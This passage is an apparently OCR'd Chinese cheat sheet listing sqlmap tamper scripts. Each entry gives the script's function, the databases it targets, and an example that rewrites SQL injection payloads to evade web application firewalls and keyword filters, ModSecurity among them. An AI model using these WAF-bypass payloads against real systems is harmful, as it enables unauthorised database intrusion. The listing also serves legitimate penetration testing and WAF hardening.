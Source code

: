 ```shell
举例：select table_name from information_schema.tables ==> select table_name from information_schema/**/.tables

lowercase.py
功能：将 payload 里的大写转为小写
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==> select table_name from information_schema.tables

modsecurityversioned.py
功能：用注释来包围完整的查询语句，用于绕过 ModSecurity 开源 waf
平台：MySQL 5.0
举例：1 AND 2>1–  ==> 1 /!30874AND 2>1/–

modsecurityzeroversioned.py
功能：用注释来包围完整的查询语句，用于绕过 waf ，和上面类似
平台：Mysql
举例：1 and 2>1–+ ==> 1 /!00000and 2>1/–+

multiplespaces.py
功能：围绕 SQL 关键字添加多个空格
平台：All
举例：1 UNION SELECT foobar ==> 1   UNION   SELECT   foobar

nonrecursivereplacement.py
功能：关键字双写，可用于关键字过滤
平台：All
举例：1 UNION SELECT 2–  ==> 1 UNIONUNION SELESELECTCT 2–

overlongutf8.py
功能： 转换给定的 payload 当中的所有字符
平台：All
举例：SELECT FIELD FROM TABLE WHERE 2>1 ==> SELECT% C0% AAFIELD% C0% AAFROM% C0% AATABLE% C0% AAWHERE% C0% AA2% C0% BE1

percentage.py
功能：用百分号来绕过关键字过滤，在关键字的每个字母前面都加一个 (%)
平台：Mssql 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
举例：SELECT FIELD FROM TABLE ==> % S% E% L% E% C% T % F% I% E% L% D % F% R% O% M % T% A% B% L% E

randomcase.py
功能：将 payload 随机大小写
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：INSERT ==> InseRt

randomcomments.py
功能：在 payload 的关键字中间随机插入注释符 /**/ ，可用于绕过关键字过滤
平台：Mysql
举例：INSERT ==> I / ** / N / ** / SERT

securesphere.py
功能：在 payload 后追加特殊构造的字符串
平台：All
举例：1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’

space2comment.py
功能：用注释符 // 代替空格，用于空格的绕过
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：SELECT id FROM users ==> SELECT//id//FROM//users

space2dash.py
功能：用 [注释符 (–)+ 一个随机字符串 + 一个换行符] 替换控制符
平台：MSSQL、 SQLite
```